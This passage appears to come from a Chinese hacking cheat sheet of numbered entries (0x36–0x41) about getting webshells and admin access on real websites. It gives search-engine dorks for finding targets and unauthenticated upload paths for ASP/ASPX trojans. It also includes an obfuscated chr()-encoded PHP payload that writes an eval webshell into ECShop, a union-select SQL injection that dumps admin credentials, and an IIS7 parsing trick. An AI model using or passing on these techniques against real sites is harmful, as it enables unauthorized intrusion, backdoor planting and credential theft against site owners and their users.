 3.重新访问后台地址，把网站后面的/login.asp 换成 admin_index.asp 奇迹般的直接进入后台了！


### 0x36 医院建站系统任意文件上传漏洞

关键词：inurl:cms/Column.aspx?

关键词：inurl:cms/Column.aspx?LMID=

漏洞利用 ：xtwh/upfile.aspx

直接上传aspx木马拿shell。


### 0x37 嘉友科技cms上传漏洞 

谷歌关键字：inurl:newslist.asp?NodeCode=

程序采用的上传页uploadfile.asp未进行管理验证，导致建立畸形目录上传图片木马获取shell漏洞。

exp：ploadfile.asp?uppath=mad.asp&upname=&uptext=form1.mad.asp他原上传目录是:uploadfile.asp?uppath=PicPath&upname=&uptext=form1.PicPath

而且他的上传文件没有过滤导致未授权访问，直接上传小马，然后小马后面写为1.jpg 访问路径 查看源代码。


### 0x38 ecshopcms后台拿shell 

支持最新2.7.2版本，通杀最新版本后台低权限！

<?php $filen=chr(46).chr(46).chr(47).chr(110).chr(117).chr(108).chr(108).chr(46).chr(112).chr(104).chr(112); $filec=chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(117).chr(115).chr(98).chr(93).chr(41).chr(59).chr(63).chr(62); $a=chr(119); $fp=@fopen($filen,$a); $msg=@fwrite($fp,$filec); if($msg) echo chr(79).chr(75).chr(33); @fclose($fp); ?>

后台-订单管理-订单打印-选择源代码编辑-保存-返回订单列表，随意选择一个订单打印，返回OK，生成一句话成功-在根目录生成了一个null.php，一句话密码：usb


### 0x39 教育站sql注入通杀0day

关键词：inurl:info_Print.asp?ArticleID=

默认后台：www.xx.com/ad_login.asp

比如：http://www.xx.com/info_Print.asp?ArticleID=539
加上：union select 1,2,username,password,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28 from admin

这样就直接得到了管理员账户和经过Md5加密的密码了。


### 0x40 IIS7.0 畸形解析漏洞通杀oday

找到某个使用IIS7.0架设的站，然后找到其中的图片上传点（不需要管理权限，普通注册用户即可搞定），把PHP一句话图片木马缀改成.jpg，传上去，得到图片地址。

在图片格式后面添加xx.php xx随便你怎么填，只要后缀为.php就好，之后菜刀连接即可！


### 0x41 Yothcms 遍历目录漏洞
